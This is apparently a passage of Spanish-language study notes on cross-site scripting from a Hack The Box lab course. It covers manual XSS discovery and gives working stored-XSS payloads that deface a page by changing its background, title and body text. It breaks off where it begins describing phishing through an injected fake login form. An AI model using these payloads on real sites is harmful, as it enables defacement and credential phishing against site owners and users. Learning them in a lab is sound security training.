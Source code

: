 #### Descubrimiento Manual:
La mejor forma de encontrar una vulnerabilidad XSS es probar payloads y luego analizar el código o ver sus reacciones. Esto puede ser poco eficiente por lo que la creación de scripts propios nos puede ayudar con casos específicos para su descubrimiento. 
Una forma muy importante a la hora de analizar una vulnerabilidad XSS es el code review. Si entendemos como nuestro código está siendo almacenado, podemos encontrar formas de saltarnos los filtros o elegir un payload correctamente, por ejemplo en las DOM xss con el source y el sink. El descubrimiento manual de vulnerabilidades sirve para las páginas que han sido testeadas con herramientas automáticas 

#### Defacing web sites

Defacing es la acción de cambiar el estilo de la página con el objetivo de que se vea que ha sido hackeada. Esto se realiza ejecutando código XSS para cambiar algunos atributos, los más típicos son los siguientes:
- Background Color `document.body.style.background`
- Background `document.body.background`
- Page Title `document.title`
- Page Text `DOM.innerHTML`
##### Cambiar color de fondo

Para poder hacer esto tiene que ser una vulnerabilidad stored XSS y con payloads como el siguiente:
<script>document.body.style.background = "#141d2b"</script>
Para cambiar a una imagen predeterminada podríamos hacerlo de la siguiente forma:
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>

##### Cambiar el título de la página

Solo hay que modificar el atributo document.title como hemos estado haciendo con los otros como document.body.background o document.body.style.background:
<script>document.title = 'HackTheBox Academy'</script>

##### Cambiar el contenido de la página

Se trata de cambiar el atributo del texto de página:
document.getElementById("todo").innerHTML = "New Text"

También se pueden utilizar funciones de JQuery:
$("#todo").html('New Text');

Y para cambiar en lugar de todo el código html, solo el body:
document.getElementsByTagName('body')[0].innerHTML = "New Text"

En esta última elegimos el objeto body directamente y con el [0] especificamos que es el primer body que aparezca en la página.

#### Phishing with XSS

Primero de todo, hay que encontrar una vulnerabilidad XSS dónde poder inyectar nuestro código malicioso.

##### Login Form Injection

Una vez identificada la vulnerabilidad XSS podemos crear el ataque de phishing, por ejemplo creando un form falso. Un ejemplo de form falso sería el siguiente:
